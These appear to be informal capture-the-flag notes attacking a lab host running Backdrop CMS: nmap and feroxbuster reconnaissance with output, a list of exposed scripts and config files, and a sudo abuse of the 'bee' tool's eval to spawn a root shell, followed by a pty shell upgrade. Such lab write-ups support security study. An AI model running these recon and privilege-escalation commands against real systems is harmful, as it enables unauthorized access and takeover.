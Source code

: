 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```



sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('/bin/sh');"


````bash
python -c 'import pty; pty.spawn("/bin/bash")'
```